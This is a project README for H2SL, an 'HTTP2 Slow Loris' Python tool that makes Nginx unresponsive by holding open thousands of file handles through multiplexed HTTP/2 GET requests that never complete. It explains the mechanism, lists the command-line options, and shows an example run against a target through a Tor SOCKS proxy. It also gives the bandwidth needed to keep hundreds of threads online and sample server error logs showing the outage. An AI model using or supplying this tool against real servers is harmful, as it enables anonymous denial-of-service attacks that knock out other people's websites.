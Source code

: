 # H2SL: HTTP2 Slow Loris (v1.0!)
## What is this?
This is, as usual, the result of an experiment.

I was analyzing the HTTP2 protocol on Nginx, more specifically the multiplexing aspect of it, when I noticed an interesting thing.
NDA: Everything has been tested on the default Ubuntu installer 1.18.0 and the stable 1.22.1.

I noticed that in Nginx (and probably in other webservers too), using HTTP2 and making a GET request to a big file (>1MB seems enough) a file handler gets spawned and stays locked (plainly visible by launching lsof on the target file) even if the end_stream header is not present and even if no file read is actually requested.

Knowing this I noticed that the maximum available handlers I could open on Nginx (per TCP stream) is 129, which seems consistent on all my virtualized systems.

I then proceeded into writing a multithreaded python script that spawns 129 multiplexed GET requests per TCP stream, never sending the end_stream header and never actually asking for data.
In all my tests just 100 threads are well more then enough to fill the maximum allowed open files for a regular linux user (actually requesting 100*129 open files == 12'900 file handles)

This results in Nginx just plainly stopping answering regularly and starting to answer with only **errors 500**, filling the logs with:
```
2023/02/20 22:33:16 [crit] 3078387#3078387: accept4() failed (24: Too many open files)
```

These requests will stay up until nginx starts to starve them (~60s), but then we can directly reuse the same socket completely restarting an HTTP2 connection.

All this uses little to no bandwidth, and it's perfectly doable under TOR network too.
In my tests 100 threads can be kept online with just **~3mbps of upload speed** and less than **0.5mbps of download speed** or 500 threads can be kept online with just **~7mbps of upload speed** and **less then 1mbps of download speed**, with basically 0% CPU usage from the attacker side, so it's absolutely plausible to believe that an attacker host could reach way more than a few thousands threads.
### TL;DR:
**It works perfectly with nginx using http2.**

MIGHT work on other webservers too. I haven't personally tested that.
## Usage

```
~$ python -BO ./h2sl.py -h
usage: h2sl.py [-h] [--port PORT] [--threads THREADS] [--requests REQUESTS] [--filepath FILEPATH] [--wait WAIT] [--proxy PROXY] server_name

H2SL - HTTP2 Slow Loris v1.0 by ShotokanZH

positional arguments:
  server_name           the IP or hostname to attack

options:
  -h, --help            show this help message and exit
  --port PORT, -p PORT  the HTTPS port where an HTTP2 server is listening (Default: 443)
  --threads THREADS, -t THREADS
                        number of threads, as a 'thumb rule' 100 is usually enough for a standard nginx. (Default: 1)
  --requests REQUESTS, -r REQUESTS
                        requests per HTTP2 connection, multiplexed, default should be the nginx max (Default: 129)
  --filepath FILEPATH, -f FILEPATH
                        path to a big file, >1MB preferred (Default: /)
  --wait WAIT, -w WAIT  waiting time to start a new thread if no ack is received, in seconds (Default: 1)
  --proxy PROXY, -x PROXY
                        uses the selected socks4/5 proxy. Example: socks4://127.0.0.1:9050
```

To make it work we need a big static file (~>1MB) passed as argument to `--filepath`, such as an image, a big css or a video.

For the sake of clarity, '`/bigimage.png`' will be used in the following example

```shell
~$ python3 -m pip install -r requirements.txt
~$ python3 -BO h2sl.py evil_website.com --filepath '/bigimage.png' --threads 100 --proxy socks4://127.0.0.1:9050
H2SL - HTTP2 Slow Loris v1.0 by ShotokanZH

Using socks proxy: {'version': '4', 'host': '127.0.0.1', 'port': 9050}

Checking http2.. OK!

Starting threads..
Starting thread |█████████████████████████████████| 100.0% - 100/100

H2SL Online! (^C to quit)
```

On the remote server we can check the open file handlers like this:
```shell
~$ lsof /path/to/bigimage.png | wc -l
11994
```
And Nginx error log is just filled with:
```
2023/02/22 17:04:51 [crit] 3316951#3316951: accept4() failed (24: Too many open files)
2023/02/22 17:04:51 [crit] 3316947#3316947: accept4() failed (24: Too many open files)
2023/02/22 17:04:52 [crit] 3316951#3316951: accept4() failed (24: Too many open files)
2023/02/22 17:04:52 [crit] 3316947#3316947: accept4() failed (24: Too many open files)
2023/02/22 17:04:52 [crit] 3316951#3316951: accept4() failed (24: Too many open files)
2023/02/22 17:04:52 [crit] 3316947#3316947: accept4() failed (24: Too many open files)
2023/02/22 17:04:53 [crit] 3316951#3316951: accept4() failed (24: Too many open files)
```

The server should be completely unresponsive after just 100 threads.
### Special thanks
[@Gpericol](https://github.com/gpericol)